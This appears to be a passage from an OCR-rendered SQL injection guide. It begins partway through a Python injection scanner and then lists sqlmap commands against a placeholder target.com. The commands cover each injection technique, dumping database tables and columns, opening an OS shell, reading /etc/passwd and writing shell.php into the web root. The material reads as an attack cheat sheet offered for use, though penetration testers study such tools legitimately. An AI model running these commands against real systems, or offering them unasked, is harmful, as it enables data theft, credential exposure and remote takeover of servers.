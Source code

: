 ```python
        
        for result in results:
            if result.get('error_keywords'):
                print(f"Potential SQL injection found!")
                print(f"Payload: {result['payload']}")
                print(f"Errors: {result['error_keywords']}")
                return True
        
        return False

# Usage example
if __name__ == "__main__":
    scanner = SQLScanner("http://target.com/page")
    scanner.scan_parameter("id", "1")
```

### Automated Testing Tools

#### SQLMap Advanced Usage
```bash
# Basic scan
sqlmap -u "http://target.com/page?id=1" --batch

# Comprehensive scan
sqlmap -u "http://target.com/page?id=1" --batch --level=5 --risk=3 --dbs

# POST data scan
sqlmap -u "http://target.com/login" --data="username=admin&password=test" --batch

# Cookie-based scan
sqlmap -u "http://target.com/page" --cookie="session=abc123" --batch

# Custom headers
sqlmap -u "http://target.com/page?id=1" --headers="X-Forwarded-For: 127.0.0.1" --batch

# Time-based blind injection
sqlmap -u "http://target.com/page?id=1" --technique=T --batch

# Union-based injection
sqlmap -u "http://target.com/page?id=1" --technique=U --batch

# Error-based injection
sqlmap -u "http://target.com/page?id=1" --technique=E --batch

# Boolean-based blind injection
sqlmap -u "http://target.com/page?id=1" --technique=B --batch

# Extract database information
sqlmap -u "http://target.com/page?id=1" --dbs --batch
sqlmap -u "http://target.com/page?id=1" -D database_name --tables --batch
sqlmap -u "http://target.com/page?id=1" -D database_name -T table_name --columns --batch
sqlmap -u "http://target.com/page?id=1" -D database_name -T table_name -C column_name --dump --batch

# OS command execution
sqlmap -u "http://target.com/page?id=1" --os-shell --batch

# File operations
sqlmap -u "http://target.com/page?id=1" --file-read="/etc/passwd" --batch
sqlmap -u "http://target.com/page?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php" --batch
```
